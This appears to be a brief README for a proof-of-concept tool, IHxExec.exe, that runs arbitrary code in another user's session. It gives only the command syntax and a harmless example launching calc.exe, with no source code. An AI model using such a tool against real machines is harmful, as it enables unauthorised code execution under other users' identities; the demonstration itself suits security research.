 POC to execute arbitrary code on behalf of another user. Easy to use:
```shell
.\IHxExec.exe -s <session> -c <target executable>

# Ex
  .\IHxExec.exe -s 1 -c c:/windows/system32/calc.exe
```

